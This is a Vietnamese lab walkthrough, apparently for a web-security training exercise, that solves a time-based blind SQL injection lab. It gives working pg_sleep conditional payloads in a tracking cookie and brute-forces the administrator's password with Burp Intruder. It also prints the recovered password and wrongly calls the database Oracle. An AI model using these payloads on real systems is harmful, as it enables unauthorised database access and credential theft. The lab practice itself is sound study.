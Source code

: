 ## Blind SQL injection with time delays and information retrieval

Xác định được CSDL đang sử dụng là Oracle bằng cách sử dụng câu query time deplay của Oracle
> **TrackingId=crL1RtnRvnEhp8aD'||pg_sleep(10)--**

Chúng ta sẽ xác nhận user admin có trong bảng user không bằng cách thử câu điều kiện lỗi.
**SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END**

Áp dụng vào trackingId
> **TrackingId=crL1RtnRvnEhp8aD'||(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END)--**

điều kiện đúng thì thực hiện vế 1, không thì thực hiện else => Ta sẽ thấy mất hẳn 5s reponse mới được trả về => đây là đk đúng

Ta truy vấn kiểm tra xem user admin có tồn tại hay không nhờ vào thời gian trả về reponse là từ 5s
> **TrackingId=crL1RtnRvnEhp8aD'||(SELECT CASE WHEN (username='administrator') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM USERS)--**

![](/imgs/SQL-Injection/61.png?raw=true)

Tiếp tục brute xem pass có độ dài bao nhiêu.

Đưa request sang Intruder và đánh dấu đô la vào phần độ dài pass (Phần payload thì chọn number)

Ở Tab resource pool ta sẽ tạo thêm pool mới max request là 1 để xác định xem request nào đang delay.

![](/imgs/SQL-Injection/62.png?raw=true)

Sau khi brute xong ta check phần response receive đến payload số 19 có sự thay đổi về response receive => password có 20 kí tự

![](/imgs/SQL-Injection/63.png?raw=true)

Sau khi đã biết được có 20 kí tự trong pass ta sẽ brute 1 lần nữa lấy ra nguyên pass như các lab đã làm (có thể chỉnh thời gian deplay còn 2 hoặc 3s để không phải chờ mỏi mòn :v)

Xếp lại theo response receive chúng ta sẽ nhận được các reponse với response receive cao hơn các reponse khác, nếu đếm ra thì có chính xác 20 response như vậy.

![](/imgs/SQL-Injection/64.png?raw=true)

Chúng ta sẽ xếp lại playload1 tương ứng với giá trị của payload2 rồi login vào
Wt1azwyrlmqdo6yemc6j

![](/imgs/SQL-Injection/65.png?raw=true)




